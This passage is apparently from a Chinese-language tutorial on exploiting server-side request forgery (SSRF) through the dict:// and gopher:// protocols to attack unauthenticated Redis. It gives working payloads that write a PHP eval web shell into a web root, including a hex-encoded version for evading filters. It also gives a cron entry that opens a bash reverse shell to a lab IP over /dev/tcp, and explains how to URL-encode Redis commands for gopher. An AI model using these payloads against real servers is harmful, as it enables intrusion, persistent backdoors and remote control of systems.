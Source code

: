 ```
dict://192.168.61.161:6379/config:set:dbfilename:test.php
dict://192.168.61.161:6379/config:set:dir:/var/www/html
dict://192.168.61.161:6379/set:jaden:"\n\n<?php @ev..($_POST[x]);?>\n\n"
dict://192.168.61.161:6379/save
若存在过滤， 则利用16进制内容写入：
dict://192.168.61.161:6379/set:test:"\n\n\x3c\x3f\x70\x68\x70\x20\x40\x65\x76\x6
1\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x78\x5d\x29\x3b\x3f\x3e\n\n"
四、dict协议攻击redis，写入ssh公钥
操作和写入定时任务相似
```
3、sftp
在这里，Sftp代表SSH文件传输协议（SSH File Transfer Protocol），或安全文件传输协议（SecureFile Transfer Protocol），这是一种与SSH打包在一起的单独协议，它运行在安全连接上，并以类似的方式进行工作。
4、ldap://或ldaps://或ldapi://
LDAP代表轻量级目录访问协议。它是IP网络上的一种用于管理和访问分布式目录信息服务的应用程序协议。
5、gopher://
Gopher是一种分布式文档传递服务。利用该服务，用户可以无缝地浏览、搜索和检索驻留在不同位置的信息。那么它在ssrf中如何使用呢？需要发送多行数据时，就要用到gopher协议，同样使用nc简单测试一下，可以看到接收端成功接收到了换行的数据，所以gopher协议可以用来攻击那些需要交互的应用。gopher协议支持多行数据一起发送，dict协议不支持换行符，没有办法进行换行，相当于一次只能执行一条命令，所以不能用来攻击那些需要交互的应用（比如需要认证的redis，每次都要先发送登录密码，紧接着就是要执行的指令，每次都是如此）。 并且gopher协议支持发出GET、POST请求：可以先截获get请求包和post请求包，再构成符合gopher协议的请求。gopher协议是ssrf利用中最强大的协议。GOPHER协议是一种比HTTP协议还要古老的协议，默认工作端口70，但是gopher协议在SSRF漏洞利用上比HTTP协议更有优势。GOPHER协议可以以单个URL的形式传递POST请求，同时支持换行。
```
协议格式：
gopher://ip:port/_数据包 # 数据包前面的_是一个无用字符，因为gopher协议的数据格式默认
会吃掉第一个数据，所以给一个无用数据占位。
格式要求：
1.gopher协议会吃掉第一个字符，所以要先放一个没有用的字符
2.要进行url编码
3.gopher协议数据流中，url编码之后使用%0d%0a替换字符串中的回车换行
4.数据流末尾使用%0d%0a代表消息结束
```
攻击redis之前先了解一下redis的协议数据流格式，方便后面对gopher协议中携带的数据流进行理解。
数据流格式中CR LF表示的就是\r \n
```
*<参数数量> CR LF
$<参数 1 的字节数量> CR LF
<参数 1 的数据> CR LF
...
$<参数 N 的字节数量> CR LF
<参数 N 的数据> CR LF
```
简单示例：
*4：表示4个参数 config、set、dir、/var/www/html
$6：表示每个参数的字节长度 config长度为6
```
*4
$6
config
$3
set
$3
dir
$13
/var/www/html
```
redis未授权常规写入定时任务反弹shell操作
```
# set jaden "\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.61.149/1444
0>&1\n\n\n\n"
config set dir /var/spool/cron
config set dbfilename root
save
```
gopher协议数据流写入操作 ，要将上面的数据转换为redis接受的数据格式，然后对_ 后面的数据进行url编码，如果后台触发漏洞的是curl_exec()，需要对_ 后面的数据进行二次URL编码，如果是file_get_contents()造成的ssrf，就不需要二次url编码了。